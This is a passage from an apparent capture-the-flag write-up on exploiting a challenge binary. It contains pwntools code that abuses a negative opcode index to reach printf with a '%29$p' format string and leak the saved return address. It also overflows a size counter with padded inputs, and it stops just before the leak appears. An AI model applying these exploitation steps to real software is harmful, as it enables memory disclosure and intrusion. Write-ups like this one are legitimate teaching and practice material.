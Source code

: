 If we run into the calculation of `functions`, we can see that it takes the opcode is `0x41`, which is character `A`:

![check-opcode.png](images/check-opcode.png)

![instruction.png](images/instruction.png)

With rax is the array `functions` and rdx is opcode. Note that rdi is string of `A` so the idea now is to use printf with our format string is `%29$p` to leak the saved rip of this function. Let's say we have a payload like this:

```python
payload = b'%29$p\0' + p32(-22, sign=True)
```

The first byte string is string for rdi, the p32() is for opcode. Hence, we will need to change the number of bytes `C` append to program to set the correct size is `6`:

```python
payload = b'%29$p\0' + p32(-22, sign=True)               # Change here
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', payload.ljust(0x400, b'A'))     # Change here
for i in range(62):
    p.sendlineafter(b'6. Exit\n', b'4')
    p.sendafter(b'string: ', b'A'*0x400)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'B'*0x3ff)
p.sendlineafter(b'6. Exit\n', b'4')
p.sendafter(b'string: ', b'C'*(1+len(payload)-4))        # Change here
```

Our payload need to be `0x400` bytes to we add pad to payload with `ljust()`. With the last change, we want to make the size from `0xffff` into `0x10000` so we add 1 byte first, then if we input full length of payload (which is `10` bytes), but we just want first 6 bytes of payload so we subtract with 4. After that, we just need to execute option 2 (because option 2 not cause segfault) to get libconvert address leak:
